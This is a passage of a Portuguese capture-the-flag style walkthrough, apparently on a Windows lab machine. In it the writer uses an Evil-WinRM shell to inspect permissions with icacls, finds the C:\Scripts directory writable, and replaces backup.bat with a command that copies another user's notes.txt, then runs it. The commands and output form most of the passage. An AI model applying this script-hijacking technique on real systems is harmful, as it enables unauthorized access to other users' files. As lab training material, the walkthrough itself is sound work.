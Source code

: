 ### 3.1.1 Verificando Permissões
```
*Evil-WinRM* PS C:\Scripts> icacls backup.bat
backup.bat NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           K2\o.armstrong:(I)(F)
```

As contas **NT AUTHORITY\SYSTEM**, **Administrators** e **o.armstrong** possuem **controle total (F)** sobre o arquivo.  
Os demais usuários possuem apenas **permissão de leitura e execução (RX – Read & Execute)**.  
Todas essas permissões foram **herdadas de um diretório pai**, como indicado pelo atributo `(I)`.

Certo, sobre o arquivo não tenho permissão para muita coisa, mas pensando de forma diferente, e SE tivermos alguma permissão no diretório?

```
*Evil-WinRM* PS C:\Scripts> icacls C:\Scripts
C:\Scripts K2\j.smith:(F)
           K2\o.armstrong:(F)
           NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
           BUILTIN\Administrators:(I)(OI)(CI)(F)
           BUILTIN\Users:(I)(OI)(CI)(RX)
           BUILTIN\Users:(I)(CI)(AD)
           BUILTIN\Users:(I)(CI)(WD)
           CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

## 3.1.2 Abusando de Permissões

**Temos permissão no diretório**, então foi possível realizar as seguintes ações:

1. Renomeei o script original para mantê-lo como backup:
    `mv backup.bat backup.bat.bkp`
2. Em seguida, criei um novo `backup.bat` com a seguinte linha de comando:
    `copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\j.smith\Documents\backup_notes.txt`
3. Por fim, executei o script usando PowerShell:
    `Start-Process "backup.bat"`


```
*Evil-WinRM* PS C:\Scripts> dir
    Directory: C:\Scripts
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2023   1:32 AM             92 backup.bat


*Evil-WinRM* PS C:\Scripts> mv backup.bat backup.bat.bkp


*Evil-WinRM* PS C:\Scripts> echo "copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt" > backup.bat


*Evil-WinRM* PS C:\Scripts> Start-Process "backup.bat"


*Evil-WinRM* PS C:\Scripts> dir
	Directory: C:\Scripts
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/27/2025   5:44 PM             65 backup.bat
```